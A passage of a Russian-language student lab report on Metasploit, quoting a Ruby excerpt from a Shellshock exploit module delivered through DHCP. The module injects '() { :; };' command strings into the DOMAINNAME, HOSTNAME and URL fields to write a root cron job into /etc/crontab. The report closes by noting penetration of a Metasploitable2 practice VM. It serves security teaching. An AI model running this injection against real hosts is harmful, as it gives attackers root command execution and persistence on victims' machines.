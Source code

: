 \begin{lstlisting}[caption=modules/exploits/unix/dhcp/bash\_environment.rb]
  def on_new_session(session)
    print_status "Cleaning up crontab"
    # XXX this will brick a server some day
    session.shell_command_token("sed -i '/^\\* \\* \\* \\* \\* root/d' /etc/crontab")
  end

  def exploit
    hash = datastore.copy
    # Quotes seem to be completely stripped, so other characters have to be
    # escaped
    p = payload.encoded.gsub(/([<>()|'&;$])/) { |s| Rex::Text.to_hex(s) }
    echo = "echo -e #{(Rex::Text.to_hex("*") + " ") * 5}root #{p}>>/etc/crontab"
    hash['DOMAINNAME'] = "() { :; };#{echo}"
    if hash['DOMAINNAME'].length > 255
      raise ArgumentError, 'payload too long'
    end

    hash['HOSTNAME'] = "() { :; };#{echo}"
    hash['URL'] = "() { :; };#{echo}"
    start_service(hash)

    begin
      while @dhcp.thread.alive?
        sleep 2
      end
    ensure
      stop_service
    end
  end

end
\end{lstlisting}

\section{Выводы}

Metasploit - огромный набор эксплоитов и инфраструктура для их использования. В ходе работы был изучен консольный интерфейс msfadmin и графический интерфейс Armitage. 

Было совершено проникновение в виртуальную машину Metasploitable2 с помощью уязвимостей в сервисах IRC и FTP.